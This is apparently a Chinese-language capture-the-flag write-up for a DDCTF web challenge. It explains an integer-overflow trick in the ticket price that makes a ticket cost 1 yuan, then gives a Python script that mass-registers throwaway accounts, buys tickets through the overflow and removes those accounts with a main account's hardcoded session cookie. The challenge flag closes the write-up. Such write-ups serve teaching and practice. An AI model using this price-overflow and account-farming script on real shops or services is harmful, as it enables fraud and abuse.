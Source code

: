 # 大吉大利,今晚吃鸡~

## 第一步：买票
在购买(添加至购物车)界面，发现有一个js整型溢出
![Alt text](./1555404883773.png)
![Alt text](./1555405066813.png)
然后再点击支付就可以购买到门票并进入游戏(虽然前台显示的需要支付的数字很大，但是实际上只用花1元钱)
![Alt text](./1555405145236.png)

## 第二步：杀人
点击移除对手，发现要杀一个人需要`id`与`ticket`
![Alt text](./1555405345269.png)

## 第三步：全自动脚本
整体思路如下：
1. 批量注册小号
2. 小号买票，并提取小号的`id`与`ticket`
3. 大号杀小号

脚本如下：
```python
import requests
import re

for i in range(513000000,600000000):
    get_url = 'http://117.51.147.155:5050/ctf/api/register?name=%s&password=12345678' %i
    get_ticket = 'http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967297'


    headers = {
        'Host': '117.51.147.155:5050',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
        'Accept': 'application/json',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': 'http://117.51.147.155:5050/index.html',
        'Connection': 'close',
    }

    # 添加到购物车
    s = requests.session()
    url = s.get(get_url)
    ticket_get = s.get(get_ticket)

    # 正则提取bill_id
    cut = re.split(r"[:,]", str(ticket_get.text))
    cud = str(cut[4]).replace('"','')
    pay_ticket = 'http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id=%s' %cud
    pay = s.get(pay_ticket)

    # 正则匹配id与ticket
    cun = re.split(r"[:,}]", str(pay.text))
    id = str(cun[4]).replace("'","")
    ticket = str(cun[6]).replace('"','')

    main_url = 'http://117.51.147.155:5050/ctf/api/remove_robot?id=%s&ticket=%s' %(id,ticket)
    kill = s.get(main_url, headers={'Cookie':'user_name=123sd; REVEL_SESSION=88bd3619321062e6058167f64f0d48c9'})
    # 利用headers参数带入大号cookie
    print(kill.text)
```

最后拿到flag
![Alt text](./1555240222463.png)
flag: DDCTF{chiken_dinner_hyMCX[n47Fx)}
